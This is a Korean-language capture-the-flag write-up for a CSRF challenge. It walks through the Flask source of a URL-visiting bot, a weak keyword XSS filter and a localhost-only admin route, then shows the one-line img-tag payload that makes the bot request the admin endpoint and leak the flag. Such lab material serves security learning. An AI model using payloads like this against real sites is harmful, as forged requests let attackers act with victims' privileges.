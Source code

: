 ### 문제 코드

#### read_url

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        print(str(e))
        # return str(e)
        return False
    driver.quit()
    return True
```

해당 url을 방문합니다.

#

#### check_csrf

```python
def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

입력받은 url과 이용자의 쿠키로 해당 url을 방문하는 read_url 함수를 호출합니다. 그래서 CSRF 취약점이 발생합니다.


#

#### app.route("/")

```python
@app.route("/")
def index():
    return render_template("index.html")
```

index.html 페이지를 랜더링 합니다.


#


#### app.route("/vuln")

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

frame, script, on 태그가 들어오면 모두 *로 변환합니다.


#

#### app.route("/flag", methods=["GET", "POST"])

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

사용자에게 입력창을 보여주고 입력 받은 내용을 인자로 check_csrf 함수를 호출합니다. 

#

#### @app.route("/memo")

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.html", memo=memo_text)
```

memo.html에 memo_text를 넣어서 랜더링합니다.

#

#### app.route("/admin/notice_flag")

```python
@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"
```

IP 주소가 localhost이고 userid가 admin이면 memo_text에 FLAG를 대입합니다.

⇾ 입력받은 URL을 확인하는 봇이 구현되어 있다고 하니 CSRF 취약점을 이용해서 봇이 /admin/notice_flag 페이지로 접속하게 하면 될거 같습니다. 이때 FLAG를 얻기 위해 userid는 admin으로 해줘야 합니다.


<br>


### 익스플로잇

/admin/notice_flag 페이지에 userid가 admin으로 접속하도록 공격 코드를 짜보면

```html
<img src="/admin/notice_flag?userid=admin">
```

#

공격 코드를 넣어보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/ec50cf7b-6500-4a8f-96a8-0cc03848a157/image.png">

![](https://velog.velcdn.com/images/silvergun8291/post/436f5744-860d-44a4-ac07-c1e5a19be57c/image.png)

공격에 성공해서 FLAG가 출력되었습니다.


